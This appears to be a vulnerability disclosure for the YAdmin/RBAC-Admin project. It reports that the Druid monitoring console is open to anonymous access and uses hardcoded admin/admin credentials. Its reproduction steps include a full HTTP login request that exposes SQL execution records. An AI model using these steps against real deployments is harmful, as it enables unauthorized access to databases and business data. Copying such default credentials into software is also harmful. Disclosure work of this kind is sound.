





## Description

YAdmin (Easy Admin System) master branch contains an unauthenticated access and weak password vulnerability in its Druid monitoring console. In the system's DruidConfig configuration class, the login credentials for the Druid console (StatViewServlet) are hardcoded to the default weak password admin/admin. Concurrently, the system's Spring Security configuration class uses .anonymous() to exclude the /druid/** path, allowing anonymous access. The combination of these two flaws allows remote unauthenticated attackers to directly access the console by visiting /druid/login.html and entering the weak password. After successful login, the attacker can view the SQL monitoring page to obtain the system's underlying SQL execution records, database schema, and potentially sensitive business data, resulting in severe information disclosure.

Product Repository:  https://github.com/YangZxi/RBAC-Admin

## Vulnerability Analysis

Vulnerable File: DruidConfig.java (21:49)

RBAC-Admin-master\YAdmin-basic\src\main\java\cn\xiaosm\yadmin\basic\config\DruidConfig.java



Spring Security Configuration Flaw

RBAC-Admin-master\YAdmin-basic\src\main\java\cn\xiaosm\yadmin\basic\config\security\SecurityAdapter.java



## Steps to Reproduce

### Steps to Reproduce:

1. Start the YAdmin application.
2. Navigate to the Druid login page: http://target-ip:port/druid/login.html.
3. Input the hardcoded credentials (admin/admin) into the login form and submit.
4. Upon successful login to the Druid console, navigate to and click the "SQL" tab in the top navigation bar.
5. An attacker, without any valid credentials or authorization within the system, can directly view sensitive information such as executed SQL statements, execution times, and fetched row counts.

1.Navigate to the Druid login page: http://target-ip:port/druid/login.html.



2.Input the hardcoded credentials (admin/admin) into the login form and submit.



```
POST /druid/submitLogin HTTP/1.1
Host: 127.0.0.1:8080
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Referer: http://127.0.0.1:8080/druid/login.html
Accept-Language: zh-CN,zh;q=0.9
Origin: http://127.0.0.1:8080
Sec-Fetch-Site: same-origin
Accept: text/plain, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/156.0.0.0 Safari/537.36
sec-ch-ua: "Not:A-Brand";v="8", "Chromium";v="156", "Google Chrome";v="156"
Accept-Encoding: gzip, deflate, br, zstd
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 38

loginUsername=admin&loginPassword=admin
```

3.Upon successful login to the Druid console, navigate to and click the "SQL" tab in the top navigation bar.

